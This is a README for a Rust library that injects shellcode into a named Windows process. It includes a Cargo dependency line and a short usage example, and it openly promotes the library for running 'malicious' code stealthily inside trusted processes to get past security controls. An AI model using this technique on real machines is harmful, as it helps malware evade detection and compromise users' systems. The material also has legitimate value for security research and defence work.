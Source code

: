 # Rust Process Injection (Windows Only)
[Documentation](https://swiiz.github.io/needle-rs/needle/index.html) - [Apache 2.0 License](https://github.com/Swiiz/needle-rs/blob/main/LICENSE) - [Author](https://github.com/Swiiz)

> Process injection is a technique used to execute arbitrary code in the address space of a separate live process. It is commonly used in both legitimate applications, such as debugging tools, and malicious activities, such as malware attacks. The main goal of process injection is to manipulate the target process to run the injected code with the same permissions and context as the original process, often to evade detection and security measures.

Allows for running "malicious" code stealthily within the context of trusted processes, bypassing security controls. 

## How to use:
```TOML
# Cargo.toml
# ...
[dependencies]
needle = { git = "https://github.com/Swiiz/needle-rs.git", features = [ "windows" ] }
```
```RUST
use needle::{find_process, inject, Payload};

const SHELL_CODE: &[u8] = include_bytes!("YOUR_PAYLOAD.bin");

fn main() {
    let payload = Payload::from(SHELL_CODE);
    let process = find_process("YOUR_TARGET_PROCESS.exe").expect("Target process not found");
    if let Err(e) = inject(process, payload) {
        println!("Could not inject payload: {}", e);
    }
}
```

## If anyone is interested in implementing other platforms/methods, please feel free to contribute 👍
